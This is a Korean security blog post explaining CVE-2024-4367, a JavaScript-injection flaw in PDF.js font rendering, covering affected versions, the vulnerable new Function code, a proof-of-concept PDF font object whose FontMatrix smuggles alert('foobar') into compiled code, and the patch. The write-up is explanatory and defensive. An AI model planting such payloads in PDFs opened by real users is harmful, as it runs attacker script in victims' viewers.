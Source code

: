 ```yaml
---
title: "XSS in PDF.js"
description: "The arbitrary JavaScript code execution vulnerability in PDF.js"
author: bde574786
date: 2024-10-31 20:04:00 +0900
categories: [최근 보안 이슈]
tags: [빡공팟, 콘테스트 네뷸라, 최근 보안 이슈, CVE]
image: assets/posts/security-issue/2024-10-31/img-001.png
---
```


## **Description**

`CVE-2024-4367` 취약점은 Codean Labs에서 발견한 **PDF.js 취약점**이다. PDF.js는 **Mozilla**에서 관리하는 **JavaScript 기반 PDF 뷰어**이자 **라이브러리**이다. 공격자는 악성 PDF 파일이 열리는 즉시 임의의 JavaScript 코드를 실행할 수 있었다. PDF.js는 Firefox 브라우저에 내장되어 PDF 파일을 렌더링하는 데 사용되기 때문에 모든 Firefox 사용자에게 영향을 미칠 정도로 파급력이 컸다.

## **Affected Versions**

- pdfjs-dist(npm)
    - 0.8.1181
    - 1.4.20
    - 1.10.88
    - 4.1.392
- Mozilla Firefox < 126
- Mozilla Firefox < 115.11
- Mozilla Thunderbird < 115.11

## **PoC**

해당 취약점은 PDF.js가 PDF 파일에서 폰트를 렌더링하는 과정에서 발생한다.
아래는 PDF.js 라이브러리의 폰트 렌더링 최적화와 관련된 코드이다. 

```jsx
// If we can, compile cmds into JS for MAXIMUM SPEED...
if (this.isEvalSupported && FeatureTest.isEvalSupported) {
  const jsBuf = [];
  for (const current of cmds) {
    const args = current.args !== undefined ? current.args.join(",") : "";
    jsBuf.push("c.", current.cmd, "(", args, ");\n");
  }
  // eslint-disable-next-line no-new-func
  console.log(jsBuf.join(""));
  return (this.compiledGlyphs[character] = new Function(
    "c",
    "size",
    jsBuf.join("")
  ));
}
```
<br>
PDF 파일의 페이지를 Canvas에 렌더링 하는 과정에서 명령어들을 미리 컴파일된 코드 조각으로 변환하여 캐시에 저장해두고, 이후에는 이 캐시된 코드를 반복 실행하면서 성능을 최적화하는 메커니즘으로 보인다.

그러나, 해당 방식은 `new Function`을 사용하여 `jsBuf`에 임의의 JavaScript 코드가 삽입될 수 있는 가능성을 열어두고 있다. 따라서, 공격자는 FontMatrix와 transform 명령어에 조작된 값을 삽입해 악성 코드 실행을 유도할 수 있다.

<br>
최종적으로는 익명 함수 형태로 포맷되어 PDF.js 내부에서 렌더링할 때마다 이 함수를 호출해 PDF 문서의 특정 글자나 그래픽 요소를 Canvas에 그리게 된다.

```jsx
Function(c, size)
{
	c.save();
	c.transform(0.001,0,0,0.001,0,0);
	c.scale(size,-size);
	c.moveTo(0,0);
	c.restore();
}
```

<br>
FontMatrix는 PDF 파일 안에서 글꼴 크기와 위치를 설정하지만 이 값은 다른 값으로 설정할 수 있으며, PDF 파싱 과정에서 사용자 정의 값이 적용된다. 예를 들어, PDF 작성자가 FontMatrix를 다음과 같이 설정했다고 가정해 보겠다.

`1 0 obj … endobj` 구문은 PDF 파일 내에서 하나의 객체를 정의하는 구문으로 PDF 파일의 구성 요소(글꼴, 이미지, 텍스트 등)를 정의할 수 있다.

```
1 0 obj
<<
  /Type /Font
  /Subtype /Type1
  /FontDescriptor 2 0 R
  /BaseFont /FooBarFont
  /FontMatrix [1 2 3 4 5 (0\); alert\('foobar')]
>>
endobj
```

<br>
위 설정은 `alert(’foobar’)`를 포함하고 있다. 이 값들은 PDF.js의 jsBuf에 포함되어 `Function 생성자`에 전달되므로 최종적으로 JavaScript 코드는 다음과 같이 변환되는 것이다.

```jsx
Function(c, size)
{
	c.save();
	c.transform(1, 2, 3, 4, 5, 0); alert('foobar');
	c.scale(size,-size);
	c.moveTo(0,0);
	c.restore();
}
```

<br>
이 취약점은 사용자가 PDF 파일을 열었을 때, 임의의 `file://` URL로 다운로드를 유도할 수도 있었고 `window.PDFViewerApplication.url` 속성으로 사용자가 어떤 PDF 파일을 열었는지, 언제 열었는지, 파일이 저장된 위치까지 감시하여 보다 정교한 공격 설계로 이어지기도 했다.

## **Patch**

기존에 문자열로 처리되던 `transform`과 `save`가 `FontRenderOps의 enum 값`으로 대체되었고 `cmds`가 문자열 배열에서 `Commands` 클래스의 인스턴스로 변경되었다. 또한, add 메소드에서 커맨드를 추가할 때 인자의 타입을 검사함으로써 JavaScript 코드가 삽입되는 것을 방지하였다.

자세한 패치 정보는 아래 링크에서 확인할 수 있다.

[https://github.com/mozilla/pdf.js/security/advisories/GHSA-wgrm-67xf-hhpq](https://github.com/mozilla/pdf.js/pull/18015/commits/551e63901c4e19450673c4832ef2235cf8f2fffa)

## **Reference**
[https://blog.theori.io/2024-h1-hot-security-issue-case-b0636c5c6a7a](https://blog.theori.io/2024-h1-hot-security-issue-case-b0636c5c6a7a)  
[https://hackyboiz.github.io/2024/05/22/pwndorei/2024-05-22/](https://hackyboiz.github.io/2024/05/22/pwndorei/2024-05-22/)  
[https://codeanlabs.com/blog/research/cve-2024-4367-arbitrary-js-execution-in-pdf-js/](https://codeanlabs.com/blog/research/cve-2024-4367-arbitrary-js-execution-in-pdf-js/)

